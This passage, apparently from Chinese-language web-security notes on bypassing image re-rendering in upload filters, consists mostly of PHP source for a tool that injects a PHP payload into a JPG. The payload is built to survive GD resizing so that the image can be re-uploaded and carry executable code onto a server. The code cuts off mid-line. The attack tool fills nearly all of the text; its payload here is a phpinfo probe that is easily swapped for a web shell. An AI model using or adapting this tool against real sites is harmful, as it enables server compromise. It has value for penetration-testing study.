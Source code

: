

### JPG的二次渲染绕过

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
 
    $miniPayload = "<?=phpinfo();?>";
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
 
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
```
